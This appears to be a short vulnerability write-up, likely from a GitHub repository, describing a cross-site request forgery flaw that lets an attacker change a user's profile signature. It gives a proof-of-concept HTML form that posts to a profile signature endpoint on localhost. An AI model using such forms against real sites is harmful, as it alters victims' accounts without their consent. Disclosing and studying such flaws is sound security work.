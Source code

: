 # Edit Signature CSRF
Allows to edit the signature of a user through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form id="LAYER_form" action="http://localhost/profile.php/cmd/signature" method="POST" style="padding: 25px;">
    <label for="sig">Signature</label>
    <textarea name="sig" id="editor" style="width: 100%; height: 300px; max-width: 100%; min-width: 100%;"></textarea>
    <br><br>
    <input type="submit" name="edit" value="Save Changes">
</form>
```
